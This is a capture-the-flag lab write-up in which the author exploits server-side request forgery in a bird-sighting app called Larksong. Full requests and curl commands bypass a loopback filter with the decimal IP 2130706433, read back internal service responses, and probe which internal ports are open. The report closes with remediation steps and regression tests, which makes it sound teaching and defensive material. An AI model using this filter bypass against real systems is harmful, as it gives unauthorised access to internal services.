> **Publication note:** This article documents an authorised WebVerse educational lab reproduced on 19 August 2026. Credentials, session cookies, fresh object IDs, and the literal challenge proof are redacted. Public commands use `<LAB_HOST>` and other clear placeholders.

## Executive Summary

Larksong lets a signed-in user attach a remote photo to a bird sighting. The application fetches the supplied `photo_url` on the server. A malformed value was rejected, and the literal loopback URL `http://127.0.0.1:3000/` returned `Internal hosts are not allowed.`

I then changed only the host representation. The decimal IPv4 value `2130706433` points to `127.0.0.1`, but Larksong accepted it. The created sighting displayed the internal service response inside `fallback__body`, which confirmed the server-side fetch. A request to port `3002` returned `ECONNREFUSED 127.0.0.1:3002`, giving a clear service-state comparison. The source-defined port `9090` returned the redacted lab objective through the same readback path.

I reproduced the chain in Caido and then repeated it with `curl`. Testing stopped after WebVerse accepted the objective.

> **CONFIRMED FINDING**
>
> The authenticated `photo_url` fetch blocks literal loopback but accepts its decimal IPv4 form. Larksong then returns non-image internal HTTP bodies to the user through the sighting preview.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | Larksong |
| Difficulty | Medium |
| Reproduction date | 19 August 2026 |
| Input | `photo_url` in `POST /sightings/new` |
| Authentication | A normal lab account is required |
| Blocked form | `http://127.0.0.1:3000/` |
| Accepted equivalent | `http://2130706433:3000/` |
| Primary weakness | [CWE-918](/cwes/cwe-918/): Server-Side Request Forgery |
| Evidence | Caido request and response history, browser readback, `curl`, solved-state UI |
| Caido reproduction | Passed |
| Terminal reproduction | Passed with a separate cookie jar |

### Verified Attack Chain

```text
Authenticated sighting form
  > server fetches photo_url
Malformed URL
  > 400 URL validation error
Literal 127.0.0.1:3000
  > 400 internal-host rejection
Decimal 2130706433:3000
  > accepted and stored as a sighting
Sighting readback
  > internal Larksong HTML appears in fallback__body
Decimal 2130706433:3002
  > ECONNREFUSED 127.0.0.1:3002
Decimal 2130706433:9090
  > WEBVERSE{REDACTED} in the readback
WebVerse
  > CHALLENGE SOLVED
Stop
```

## 2. Scope and Evidence Limits

I kept the work inside authorised Larksong instances and used the application flow exposed by the sighting form.

- I did not publish the account password, session cookie, fresh sighting IDs, or literal objective.
- I used one refused-port control in the clean reproduction. The extra failed ports from the working notes add no new proof and are not part of this article.
- Port `9090` came from the original solved path. I did not find it by scanning a fresh instance.
- The tests confirm loopback HTTP access for the shown ports. They do not confirm cloud metadata access, arbitrary internal CIDRs, non-HTTP schemes, authenticated internal services, or write access.
- A `302` after the sighting POST only means a sighting was created. The later response-body readback is what confirms SSRF.

## 3. Evidence-Led Chronological Reproduction

The proxy and terminal tracks follow the same order:

1. Confirm the application and sign in.
2. Read the sighting form and identify `photo_url` as a server-fetched value.
3. Record a malformed URL response.
4. Confirm that literal loopback is blocked.
5. Change only the host to decimal IPv4.
6. Read the created sighting and confirm the internal response body.
7. Use one refused port to compare service state.
8. Request the source-defined service on port `9090`.
9. Read the objective and stop.

## 4. Caido/Burp Reproduction

### Step 1: Confirm Larksong and Create a Session

I started with a fresh `GET /`. Caido recorded the request, the complete `200` response, and the same page in the browser. This gave me a clean application baseline before authentication.

```http
GET / HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -sk -i 'https://<LAB_HOST>/' | sed -n '1,45p'
```



**Figure 1: Root request.** The first request reaches only `/` on the fresh Larksong host.



**Figure 2: Root response.** The response is `200`, identifies Express, and returns the Larksong HTML.



**Figure 3: Browser baseline.** The rendered page confirms that the active target is Larksong before any reproduction step begins.

I registered a normal lab account. The public copy below keeps the credentials out of the article.

```http
POST /register HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

display_name=<LAB_USER>&email=<LAB_EMAIL>&password=<REDACTED>
```

```bash
curl -sk -c cookies.txt -X POST 'https://<LAB_HOST>/register' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'display_name=<LAB_USER>' \
  --data-urlencode 'email=<LAB_EMAIL>' \
  --data-urlencode 'password=<REDACTED>'
```

```http
HTTP/1.1 302 Found
Location: /account
Set-Cookie: connect.sid=<REDACTED>; Path=/; HttpOnly; SameSite=Lax
```



**Figure 4: Registration response.** The server redirects to `/account` and issues the authenticated session. The original registration request is withheld because its form body contains the test password.

I then requested `/account` with the new cookie. This readback matters because the redirect alone does not show that the session works.

```http
GET /account HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' \
  'https://<LAB_HOST>/account'
```



**Figure 5: Account request.** Caido sends the issued session back to the application. The cookie value is redacted, but the route and request context remain visible.



**Figure 6: Account readback.** `/account` returns `200` and the signed-in page. The session is now confirmed before the SSRF tests begin.

### Step 2: Read the Photo Fetch Contract

From the authenticated account I opened `Log a sighting`. The browser view shows the normal user workflow, while the Caido request and response show the exact server contract.



**Figure 7: Normal application flow.** The user can create a sighting and supply a photo URL from the signed-in interface.

```http
GET /sightings/new HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' \
  'https://<LAB_HOST>/sightings/new'
```



**Figure 8: Form request.** The request reaches `/sightings/new` with the authenticated session.



**Figure 9: Fetch contract.** The response defines `POST /sightings/new`, the four form fields, and the text `We fetch the photo from your URL`. This identifies the server-fetch input, but it is not SSRF proof by itself.

### Step 3: Record the Malformed URL Control

I sent `not-a-url` through Caido Replay so browser-side `type=url` validation could not decide the result. The full body was:

```text
species=eastern-bluebird&location=C05_malformed_url&notes=negative_control&photo_url=not-a-url
```

```http
POST /sightings/new HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
Content-Type: application/x-www-form-urlencoded

species=eastern-bluebird&location=C05_malformed_url&notes=negative_control&photo_url=not-a-url
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' -X POST \
  'https://<LAB_HOST>/sightings/new' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=C05_malformed_url' \
  --data-urlencode 'notes=negative_control' \
  --data-urlencode 'photo_url=not-a-url'
```



**Figure 10: Malformed request.** The request body and route are visible together. Caido sends the value directly to the server.

```http
HTTP/1.1 400 Bad Request
```



**Figure 11: Malformed response.** The server returns a distinct `400` response instead of creating a sighting.

```text
That doesn't look like a valid URL.
```



**Figure 12: Server-side validation result.** The response body names the URL format problem. This confirms that the backend parses `photo_url`.

### Step 4: Confirm the Literal Loopback Block

The next request used the normal dotted form of loopback on the Larksong port.

```text
Decoded: http://127.0.0.1:3000/
Encoded: http%3A%2F%2F127.0.0.1%3A3000%2F
```

```http
POST /sightings/new HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
Content-Type: application/x-www-form-urlencoded

species=eastern-bluebird&location=C06_literal_loopback&notes=internal_host_control&photo_url=http%3A%2F%2F127.0.0.1%3A3000%2F
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' -X POST \
  'https://<LAB_HOST>/sightings/new' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=C06_literal_loopback' \
  --data-urlencode 'notes=internal_host_control' \
  --data-urlencode 'photo_url=http://127.0.0.1:3000/'
```



**Figure 13: Literal loopback request.** The request changes `photo_url` to `127.0.0.1:3000` while keeping the same route and form structure.

```http
HTTP/1.1 400 Bad Request
```



**Figure 14: Literal loopback response.** The server again returns `400`, but the response body explains a different reason.

```text
Internal hosts are not allowed.
```



**Figure 15: Internal-host control.** The filter recognizes the dotted loopback form. The malformed and literal controls now give two separate semantic baselines.

```text
not-a-url
  > That doesn't look like a valid URL.

http://127.0.0.1:3000/
  > Internal hosts are not allowed.
```

### Step 5: Change Only the Host Representation

`2130706433` is the decimal IPv4 form of `127.0.0.1`. I kept the scheme, port, path, and form fields the same and changed only that host value.

```http
POST /sightings/new HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
Content-Type: application/x-www-form-urlencoded

species=eastern-bluebird&location=C07_decimal_loopback&notes=decimal_bypass_3000&photo_url=http%3A%2F%2F2130706433%3A3000%2F
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' -X POST \
  'https://<LAB_HOST>/sightings/new' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=C07_decimal_loopback' \
  --data-urlencode 'notes=decimal_bypass_3000' \
  --data-urlencode 'photo_url=http://2130706433:3000/'
```

```text
Encoded: http%3A%2F%2F2130706433%3A3000%2F
Decoded: http://2130706433:3000/
```



**Figure 16: Decimal representation.** The request keeps the loopback destination and port but changes the host from dotted IPv4 to its decimal form.

```http
HTTP/1.1 302 Found
Location: /sightings/<OBJECT_ID>
```



**Figure 17: Filter difference.** The decimal form receives `302` and a new sighting location. This proves that the filter made a different decision, but the redirect alone is not SSRF proof.

### Step 6: Read the Internal Response Body

I opened the sighting created by the decimal-loopback request. The browser immediately showed the fallback preview instead of an image.



**Figure 18: Browser readback.** The page says that the remote server did not return image bytes and shows its response body inside the sighting.

```http
GET /sightings/<OBJECT_ID> HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' \
  'https://<LAB_HOST>/sightings/<OBJECT_ID>'
```



**Figure 19: Readback request.** Caido requests the exact object created by the decimal-loopback POST.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```



**Figure 20: Readback response.** The object returns `200` and contains the fallback preview structure.

```html
<div class="fallback">
  <div class="fallback__head">Image preview unavailable for this fetch</div>
  <pre class="fallback__body">...</pre>
</div>
```



**Figure 21: Internal response body.** `fallback__body` contains the escaped HTML returned by the loopback service, including the Larksong title and page content.

```text
Image preview unavailable for this fetch
The remote server didn't return image bytes.
The response body is shown below for the observer's reference.
Photo source: http://2130706433:3000/
```



**Figure 22: In-band SSRF proof.** The same response ties the disclosed Larksong HTML to `http://2130706433:3000/`. At this point the backend fetch is confirmed.

### Step 7: Compare One Refused Port

I changed only the port to `3002`.

```text
Decoded: http://2130706433:3002/
Encoded: http%3A%2F%2F2130706433%3A3002%2F
```

```http
POST /sightings/new HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
Content-Type: application/x-www-form-urlencoded

species=eastern-bluebird&location=C09_port_oracle&notes=port_3002_control&photo_url=http%3A%2F%2F2130706433%3A3002%2F
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' -X POST \
  'https://<LAB_HOST>/sightings/new' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=C09_port_oracle' \
  --data-urlencode 'notes=port_3002_control' \
  --data-urlencode 'photo_url=http://2130706433:3002/'
```



**Figure 23: Refused-port request.** Only the port changes from the working `3000` request.

```http
HTTP/1.1 400 Bad Request
```



**Figure 24: Port response.** The application returns `400` instead of creating a sighting.

```text
We couldn't fetch that URL: connect ECONNREFUSED 127.0.0.1:3002
```



**Figure 25: Service-state comparison.** The server resolves `2130706433` to `127.0.0.1` and reports the refused connection. Together with the body returned from port `3000`, this gives a clear comparison for the two tested ports.

### Step 8: Reach the Source-Defined Service on Port 9090

The original solved path identified port `9090` as the next live-service candidate. The clean run went directly there instead of repeating unrelated failed ports.

```text
Decoded: http://2130706433:9090/
Encoded: http%3A%2F%2F2130706433%3A9090%2F
```

```http
POST /sightings/new HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
Content-Type: application/x-www-form-urlencoded

species=eastern-bluebird&location=C10_objective_service&notes=port_9090_root&photo_url=http%3A%2F%2F2130706433%3A9090%2F
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' -X POST \
  'https://<LAB_HOST>/sightings/new' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=C10_objective_service' \
  --data-urlencode 'notes=port_9090_root' \
  --data-urlencode 'photo_url=http://2130706433:9090/'
```



**Figure 26: Objective-service request.** Caido shows the complete form body and the port `9090` URL.

```http
HTTP/1.1 302 Found
Location: /sightings/<OBJECT_ID>
```



**Figure 27: Accepted request.** Larksong creates another sighting. As before, the `302` does not reveal what the internal service returned.

```http
GET /sightings/<OBJECT_ID> HTTP/1.1
Host: <LAB_HOST>
Cookie: connect.sid=<SESSION_COOKIE>
```

```bash
curl -sk -b 'connect.sid=<SESSION_COOKIE>' \
  'https://<LAB_HOST>/sightings/<OBJECT_ID>'
```



**Figure 28: Final readback request.** The request opens the object created from the port `9090` fetch.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```



**Figure 29: Final response.** The sighting returns `200` and the normal HTML response type before the body is inspected.

```html
<pre class="fallback__body">WEBVERSE{REDACTED}</pre>
```



**Figure 30: Final Caido proof.** The sighting shows `WEBVERSE{REDACTED}` in the fallback body and records `http://2130706433:9090/` as its source. I stopped after this result.

## 5. Terminal/CLI Reproduction

I repeated the same chain with `curl` and a separate cookie jar on the same active lab instance. The commands below are the clean working versions from the transcript. The failed `zsh` prompt syntax and wrong-password response stay in the private session record because neither contributed to the finding.

Set the current target once:

```bash
LAB_HOST='<LAB_HOST>'
```

### Step 1: Record the Terminal Root Baseline

```bash
curl -sk -i "https://${LAB_HOST}/" | sed -n '1,45p'
```

```text
HTTP/2 200
content-type: text/html; charset=utf-8
x-powered-by: Express
<title>Larksong - Larksong</title>
```



**Figure 31: Terminal baseline.** The unfiltered command output is intentionally shown at full width. The important markers are the `200` status, Express header, and Larksong title. The lightbox can be used to inspect the complete response.

### Step 2: Create the CLI Session

This step reuses the account created during the Caido reproduction. If you started with the CLI section and do not have an account yet, create one through the registration page, then return here and continue with the login command.

The working shell was `zsh`, so the password prompt uses `printf` followed by `read -rs`. The password never appears in the command or output. `curl` writes the cookie to `/tmp/larksong.cookies`, and the printed `Set-Cookie` value is replaced before display.

```bash
printf 'Lab password: '
read -rs PASS
echo

rm -f /tmp/larksong.cookies /tmp/larksong_login.headers
curl -sk -c /tmp/larksong.cookies \
  -D /tmp/larksong_login.headers -o /dev/null -X POST \
  "https://${LAB_HOST}/login" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'email=<LAB_EMAIL>' \
  --data-urlencode "password=${PASS}"

grep -Ei '^(HTTP/|location:|set-cookie:)' /tmp/larksong_login.headers \
  | sed -E 's/(set-cookie: connect\.sid=)[^;]+/\1<REDACTED>/I'
```

```text
HTTP/2 302
location: /account
set-cookie: connect.sid=<REDACTED>; Path=/; HttpOnly; SameSite=Lax
```



**Figure 32: CLI login.** The command, redirect, and cookie properties are visible together. The password stays in the shell variable and the reusable session value is not printed.

### Step 3: Confirm the Authenticated Account

```bash
curl -sk -b /tmp/larksong.cookies \
  "https://${LAB_HOST}/account" \
  -D /tmp/larksong_account.headers \
  -o /tmp/larksong_account.body

grep -Ei '^HTTP/' /tmp/larksong_account.headers
grep -oE 'YOUR FIELD LOG|Log a new sighting|Sign out' \
  /tmp/larksong_account.body | sort -u
```

```text
HTTP/2 200
Log a new sighting
Sign out
YOUR FIELD LOG
```



**Figure 33: Authenticated CLI state.** The cookie jar reaches `/account`, and the response contains the signed-in navigation. This confirms the session before any `photo_url` request.

### Step 4: Read the Request Contract

```bash
curl -sk -b /tmp/larksong.cookies \
  "https://${LAB_HOST}/sightings/new" \
  -D /tmp/larksong_new.headers \
  -o /tmp/larksong_new.body

grep -oE 'action="/sightings/new"|name="species"|name="location"|name="notes"|name="photo_url"|We fetch the photo from your URL' \
  /tmp/larksong_new.body | sort -u
```

```text
HTTP/2 200
action="/sightings/new"
name="location"
name="notes"
name="photo_url"
name="species"
We fetch the photo from your URL
```



**Figure 34: CLI request contract.** The filtered HTML returns the same POST action, four field names, and server-fetch hint seen in Caido.

### Step 5: Repeat the Malformed URL Control

Payload:

```text
photo_url=not-a-url
```

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_badurl.headers \
  -o /tmp/larksong_badurl.body \
  -X POST \
  "https://${LAB_HOST}/sightings/new" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=T05_malformed_url' \
  --data-urlencode 'notes=negative_control' \
  --data-urlencode 'photo_url=not-a-url'

echo '--- STATUS ---'
grep -Ei '^HTTP/' /tmp/larksong_badurl.headers
echo '--- SERVER RESULT ---'
grep -oE 'form-error[^>]*>[^<]+' /tmp/larksong_badurl.body \
  | sed -E 's/^form-error[^>]*>//'
```

```text
HTTP/2 400
That doesn't look like a valid URL.
```



**Figure 35: CLI malformed control.** The command shows the submitted value, saved header and body files, status extraction, and semantic server message in one terminal view.

### Step 6: Repeat the Literal Loopback Control

```text
Decoded: http://127.0.0.1:3000/
Encoded by curl: http%3A%2F%2F127.0.0.1%3A3000%2F
```

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_loopback.headers \
  -o /tmp/larksong_loopback.body \
  -X POST \
  "https://${LAB_HOST}/sightings/new" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=T06_literal_loopback' \
  --data-urlencode 'notes=internal_host_control' \
  --data-urlencode 'photo_url=http://127.0.0.1:3000/'

echo '--- STATUS ---'
grep -Ei '^HTTP/' /tmp/larksong_loopback.headers
echo '--- SERVER RESULT ---'
grep -oE 'form-error[^>]*>[^<]+' /tmp/larksong_loopback.body \
  | sed -E 's/^form-error[^>]*>//'
```

```text
HTTP/2 400
Internal hosts are not allowed.
```



**Figure 36: CLI literal-loopback block.** The same terminal flow now returns the dedicated internal-host message instead of the malformed URL message.

### Step 7: Repeat the Decimal Loopback Bypass

```text
Decoded: http://2130706433:3000/
Encoded by curl: http%3A%2F%2F2130706433%3A3000%2F
```

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_decimal3000.headers \
  -o /tmp/larksong_decimal3000.body \
  -X POST \
  "https://${LAB_HOST}/sightings/new" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=T07_decimal_loopback' \
  --data-urlencode 'notes=decimal_bypass_3000' \
  --data-urlencode 'photo_url=http://2130706433:3000/'

echo '--- STATUS / REDIRECT ---'
grep -Ei '^(HTTP/|location:)' /tmp/larksong_decimal3000.headers
```

```text
HTTP/2 302
location: /sightings/<OBJECT_ID>
```



**Figure 37: CLI filter bypass.** The command changes only the host representation and receives a sighting redirect. The object still has to be read back before claiming SSRF.

### Step 8: Read Back the Internal Port 3000 Body

Save the path from the `Location` header as `<OBJECT_ID>`, then request that sighting:

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_s23.headers \
  -o /tmp/larksong_s23.body \
  "https://${LAB_HOST}/sightings/<OBJECT_ID>"

echo '--- STATUS ---'
grep -Ei '^HTTP/' /tmp/larksong_s23.headers
echo '--- SSRF READBACK ---'
grep -oE "Image preview unavailable for this fetch|The remote server didn't return image bytes|Photo source:[^<]+|Larksong[^<]{0,80}" \
  /tmp/larksong_s23.body | head -n 10
```

```text
HTTP/2 200
Image preview unavailable for this fetch
The remote server didn't return image bytes
Larksong - Larksong
Photo source: http://2130706433:3000/
```



**Figure 38: CLI SSRF readback.** The terminal output contains the fallback message and internal Larksong content. The saved body and source URL confirm the same in-band SSRF path as Caido.

### Step 9: Repeat the Refused-Port Control

```text
Decoded: http://2130706433:3002/
Encoded by curl: http%3A%2F%2F2130706433%3A3002%2F
```

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_port3002.headers \
  -o /tmp/larksong_port3002.body \
  -X POST \
  "https://${LAB_HOST}/sightings/new" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=T09_port_oracle' \
  --data-urlencode 'notes=port_3002_control' \
  --data-urlencode 'photo_url=http://2130706433:3002/'

echo '--- STATUS ---'
grep -Ei '^HTTP/' /tmp/larksong_port3002.headers
echo '--- PORT ORACLE ---'
grep -oE 'form-error[^>]*>[^<]+' /tmp/larksong_port3002.body \
  | sed -E 's/^form-error[^>]*>//'
```

```text
HTTP/2 400
We couldn't fetch that URL: connect ECONNREFUSED 127.0.0.1:3002
```



**Figure 39: CLI service-state comparison.** The full command and response show that the decimal host resolves to loopback and that port `3002` refused the connection.

### Step 10: Request the Source-Defined Port 9090 Service

```text
Decoded: http://2130706433:9090/
Encoded by curl: http%3A%2F%2F2130706433%3A9090%2F
```

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_9090.headers \
  -o /tmp/larksong_9090.body \
  -X POST \
  "https://${LAB_HOST}/sightings/new" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'species=eastern-bluebird' \
  --data-urlencode 'location=T10_objective_service' \
  --data-urlencode 'notes=port_9090_root' \
  --data-urlencode 'photo_url=http://2130706433:9090/'

echo '--- STATUS / REDIRECT ---'
grep -Ei '^(HTTP/|location:)' /tmp/larksong_9090.headers
```

```text
HTTP/2 302
location: /sightings/<OBJECT_ID>
```



**Figure 40: CLI objective-service request.** The command goes directly from the one refused-port control to port `9090` and creates the final sighting.

### Step 11: Read the Objective and Stop

```bash
curl -sk -b /tmp/larksong.cookies \
  -D /tmp/larksong_s24.headers \
  -o /tmp/larksong_s24.body \
  "https://${LAB_HOST}/sightings/<OBJECT_ID>"

echo '--- STATUS ---'
grep -Ei '^HTTP/' /tmp/larksong_s24.headers
echo '--- OBJECTIVE READBACK ---'
grep -oE 'Image preview unavailable for this fetch|Photo source:[^<]+|WEBVERSE\{[^}]+\}' \
  /tmp/larksong_s24.body \
  | sed -E 's/WEBVERSE\{[^}]+\}/WEBVERSE{REDACTED}/'
```

```text
HTTP/2 200
Image preview unavailable for this fetch
Photo source: http://2130706433:9090/
WEBVERSE{REDACTED}
```



**Figure 41: Final CLI readback.** The terminal track returns the same objective through the port `9090` sighting. The public screenshot and output replace the literal value with `WEBVERSE{REDACTED}`. No further target request was sent.

## 6. Controls and Results

| Test | Result | What it tells us |
| --- | --- | --- |
| Malformed `photo_url` | `400`, invalid URL message | The backend parses the field |
| `127.0.0.1:3000` | `400`, internal hosts blocked | The literal loopback form is recognized |
| `2130706433:3000` POST | `302` to a sighting | The equivalent decimal form passes the filter |
| Decimal sighting readback | Internal Larksong HTML | The backend fetched loopback and returned its body |
| `2130706433:3002` | `ECONNREFUSED 127.0.0.1:3002` | The application exposes service state for this tested port |
| `2130706433:9090` readback | `WEBVERSE{REDACTED}` | The source-defined internal service returned the lab objective |
| Caido and `curl` | Same response sequence | The result does not depend on one client |

## 7. Root Cause and Classification

The best-fit classification is [CWE-918](/cwes/cwe-918/), Server-Side Request Forgery.

Larksong accepts a user-controlled URL and fetches it on the server. Its internal-host check rejects the dotted loopback address, but the fetcher resolves the equivalent decimal IPv4 value to `127.0.0.1`. The validator and the network request therefore make different decisions about the same destination.

The sighting preview makes the result easier to use. When the response is not an image, Larksong returns the remote body through `fallback__body`. Connection failures are also shown to the user. This turns the tested SSRF into an in-band response and service-state channel.

## 8. Confirmed Impact

- A signed-in user can make the backend connect to the tested loopback HTTP services despite the literal internal-host filter.
- Non-image internal HTTP bodies are returned in the sighting view.
- A refused connection reveals service state for the tested port.
- The source-defined service on port `9090` returned the WebVerse objective.

The tests do not show broad internal-network access, cloud metadata access, non-HTTP protocols, authenticated internal services, file access, persistence, or destructive actions.

## 9. Remediation

1. Parse and normalize the hostname before any allow or block decision.
2. Resolve the destination and reject loopback, private, link-local, multicast, unspecified, and other non-public address ranges.
3. Apply the same check after every redirect.
4. Prefer an allowlist of approved image hosts when the product permits it.
5. Add network egress controls so the fetch service cannot reach loopback or internal management services.
6. Validate that the fetched content is an expected image type before storing or rendering it.
7. Return a generic preview error instead of the fetched body or raw connection details.
8. Add size, timeout, and redirect limits to the fetch operation.

## 10. How to Verify the Fix

| Regression test | Expected result |
| --- | --- |
| Normal approved image URL | Image fetch still works |
| Malformed URL | Validation error |
| `http://127.0.0.1:3000/` | Rejected before the fetch |
| `http://2130706433:3000/` | Rejected as the same loopback destination |
| Other alternate loopback forms | Rejected after normalization and resolution |
| Redirect from a public host to loopback | Rejected after the redirect |
| Non-image remote response | Generic error, no remote body |
| Refused internal port | Generic error, no address or port details |

Run the same checks through the proxy and CLI paths. Both clients should receive the same safe result.

## 11. Conclusion

Larksong tried to block internal hosts, but it checked the text form of the hostname instead of the final destination. `127.0.0.1` was rejected, while `2130706433` reached the same loopback address.

The important proof came after the redirect. The created sighting returned internal Larksong HTML and recorded the decimal-loopback source. A single refused-port control then showed the service-state difference, and the source-defined port `9090` returned the redacted objective. Caido and `curl` produced the same chain, WebVerse accepted the result, and testing stopped.


**Figure 42: Platform confirmation.** WebVerse marks Larksong as solved by Mdk22.
